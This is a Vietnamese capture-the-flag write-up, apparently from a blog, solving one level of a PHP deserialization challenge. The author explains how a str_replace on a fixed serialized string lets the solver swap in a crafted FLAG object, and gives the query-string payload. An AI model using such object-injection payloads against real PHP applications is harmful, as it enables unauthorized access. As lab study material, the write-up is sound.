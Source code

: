 Khác với các level khác, giờ ta sẽ nhận vào 2 tham số là target và change, cụ thể chúng sẽ được sử dụng để:

```php
$serliseStringFLAG = str_replace($target, $change, $serliseStringDemo);
```

Với giá trị của biến `$serliseStringDemo` là cố định, luôn là `O:4:"Demo":3:{s:1:"a";s:5:"Hello";s:1:"b";s:3:"CTF";s:3:"key";s:20:"GET_FLAG";}FAKE_FLAG";}`

Để lấy được flag từ challenge, ta phải thoả mãn những điều kiện: `$FLAG instanceof FLAG && $FLAG->key == 'GET_FLAG'`
- biến $FLAG là một object của class FLAG, với biến $FLAG nhận giá trị là `$serliseStringFLAG`
- Giá trị của property key của FLAG phải là GET_FLAG

Ban đầu, mình chỉ tìm cách thay đổi giá trị của biến key thành chính xác GET_FLAG, nhưng điều này gặp một trở ngại là độ dài hiện đang được set là 20, nên kể cả có thay đổi đúng thì unserialize cũng đấm mình và trả về error

```
target=";}FAKE_FLAG&change=

=> O:4:"Demo":3:{s:1:"a";s:5:"Hello";s:1:"b";s:3:"CTF";s:3:"key";s:20:"GET_FLAG";}
```

![image]({{ "/assets/img/2025-07-25-PHPDeserChall/image11.png" | relative_url }})

Loay hoay một hồi tìm cách, rồi mình nghĩ tại sao không thay tất cả serialized data đang có thành cái mình muốn? Và đó là có vẻ như cũng là cách đúng trong challenge này

```!
?target=O:4:"Demo":3:{s:1:"a";s:5:"Hello";s:1:"b";s:3:"CTF";s:3:"key";s:20:"GET_FLAG";}FAKE_FLAG";}&change=O:4:"FLAG":1:{s:3:"key";s:8:"GET_FLAG";}

tức mình đổi serialized data có sẵn thành một Object Flag với key là GET_FLAG
```

![image]({{ "/assets/img/2025-07-25-PHPDeserChall/image12.png" | relative_url }})